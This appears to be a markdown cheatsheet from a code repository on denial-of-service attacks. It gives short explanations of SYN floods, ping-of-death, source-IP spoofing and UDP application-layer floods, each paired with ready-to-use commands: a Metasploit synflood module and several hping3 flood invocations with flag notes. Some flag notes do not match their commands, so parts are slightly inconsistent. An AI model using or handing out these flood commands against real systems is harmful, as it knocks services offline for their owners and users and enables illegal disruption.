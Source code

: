 # DDoS cheatsheet

## SYN Flooding
SYN flooding takes advantage of a flaw with regard to how most hosts implement the TCP three-way handshake. This attack occurs when the intruder sends unlimited SYN packets (requests) to the host system. The process of transmitting such packets is faster than the system can handle. Normally, the connection establishes with the TCP three-way handshake, and the host keeps track of the partially open connections while waiting in a listening queue for response ACK packets.

#### Using Metasploit

```sh
msfconsole
use auxiliary/dos/tcp/synflood
```

## PoD attack
The attacker tries to crash, freeze, or destabilize the targeted system or service by sending malformed or oversized packets using a simple ping command.

#### Using hping3

```sh
hping3 --d 65538 -S -p 21 --flood [Target IP]
```
-d: Specifies data size.

-S: Sets the SYN flag.

-p: Specifies the destination port.

--flood: Sends a huge number of packets.

## Spoof source IP

#### Using hping3

```sh
hping3 -S [Target IP] -a [IP Spoofed]
```
-S: Sets the SYN flag.

-a: Spoofs the IP address.

-p: Specifies the destination port.

--flood: Sends a huge number of packets.


## UDP application layer flood attack

#### Using hping3

```sh
hping3 -2 -p 139 --flood [Target IP]
```
-2: Specifies the UDP mode.

-p: Specifies the destination port.

--flood: Sends a huge number of packets.

